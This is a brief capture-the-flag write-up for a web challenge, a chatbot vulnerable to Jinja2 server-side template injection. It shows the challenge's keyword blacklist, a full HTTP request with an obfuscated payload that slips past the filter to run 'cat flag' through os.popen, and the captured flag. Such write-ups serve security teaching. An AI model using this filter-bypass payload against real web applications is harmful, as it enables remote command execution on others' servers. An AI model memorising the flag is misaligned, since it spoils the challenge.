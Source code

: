# web/Unintelligible-Chatbot

I thought building chatbots would be easy... Seems like my chatbot doesn't understand much.

http://34.132.132.69:8006/

## Solution

Crazy blacklist for SSTI.

Blacklisted Words:

```python
blacklist = [
        "config", "self", "mro", "base",
        "[", "_", ".", "%"
    ]
```

I declare `fenjang` is the best SSTI payload constructor ever!

Final payload:

```http
POST / HTTP/1.1
Host: 34.132.132.69:8006
Content-Length: 868
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://34.132.132.69:8006
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.123 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://34.132.132.69:8006/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

message={{((g|attr('pop')|attr((lipsum|escape|batch(22)|list|first|last*2)|attr("\x5f\x5fadd\x5f\x5f")('globals')|attr("\x5f\x5fadd\x5f\x5f")(lipsum|escape|batch(22)|list|first|last*2))|attr((lipsum|escape|batch(22)|list|first|last*2)|attr("\x5f\x5fadd\x5f\x5f")('getitem')|attr("\x5f\x5fadd\x5f\x5f")(lipsum|escape|batch(22)|list|first|last*2))((lipsum|escape|batch(22)|list|first|last*2)|attr("\x5f\x5fadd\x5f\x5f")('builtins')|attr("\x5f\x5fadd\x5f\x5f")(lipsum|escape|batch(22)|list|first|last*2))|attr((lipsum|escape|batch(22)|list|first|last*2)|attr("\x5f\x5fadd\x5f\x5f")('getitem')|attr("\x5f\x5fadd\x5f\x5f")(lipsum|escape|batch(22)|list|first|last*2))((lipsum|escape|batch(22)|list|first|last*2)|attr("\x5f\x5fadd\x5f\x5f")('import')|attr("\x5f\x5fadd\x5f\x5f")(lipsum|escape|batch(22)|list|first|last*2)))('os')|attr('popen'))('cat%20flag')|attr('read')()}}
```

## Flag

```plaintext
flag{n07_4n07h3r_5571_ch4ll3n63}
```

